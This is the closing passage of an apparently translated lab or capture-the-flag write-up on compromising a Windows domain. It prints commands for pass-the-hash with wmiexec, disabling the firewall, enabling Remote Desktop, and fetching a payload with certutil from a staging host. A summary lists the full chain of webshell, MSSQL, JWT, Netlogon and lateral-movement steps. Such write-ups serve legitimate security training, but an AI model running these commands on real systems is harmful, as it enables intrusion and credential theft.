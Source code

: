 ````sql
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
```

![](./images/26.png)

Get `flag5` in the `C:\Users\Administrator\Desktop` directory.

![](./images/27.png)

Since the `hash` of the `Administrator` user in the domain has been obtained, it goes directly to `Server-Data2` here. After closing the firewall, use the `WEB2` service I took before as an intermediate service, put the `Mazi on it, download the `Certutil`, and launch `MSF`.

```bash
python wmiexec.py -hashes aad3b435b51404ee:bc23a1506bd3c8d3a533680c516bab27 ack123.com/Administrator@10.10.10.135

netsh advfirewall set allprofiles state off

C:\Windows\System32\certutil.exe -urlcache -split -f http://10.10.10.131/666.exe C:\666.exe
```

Get `flag4` in the `C:\Users\Administrator\Desktop` directory

![](./images/28.png)

## 0x03 Summary

At this point, all server permissions in the entire shooting range have been obtained, and there are many ways to obtain the final domain control permission. Only one is used here. You can also obtain it by blasting `krbtgt` or `mimikatz```, and you can also use the method of injecting gold notes, `PTH`, etc. to achieve horizontal direction.

process:
1. Use the `Ueditor 1.4.3` vulnerability in the `Server-Web1` website to implant `Webshell` to obtain website permissions, and then upgrade the `MSF` permission to `system` permissions online
2. By searching the configuration file, obtain the MSSQL database account password of `Server-Data1`, and combine the `COM` component `SP_OACREATE` to execute the system commands, and launch the `MSF` privilege to `system` permission.
3. Use the JWT vulnerability in the `Server-Web2` website to break the `HMACSHA256` key and get the `phpmyadmin` password, combined with the log writing method `Getshell`
4. Use the `Netlogon` vulnerability to attack domain control, get the `hash` of the `Administrator` user in the domain, add backdoor users, close the firewall, open the remote desktop, and launch `MSF`
5. Use the `hash` of the `Administrator` user in the domain obtained, directly WMIC horizontally to `Server-Data2`, and go online `MSF`

![](./images/29.png)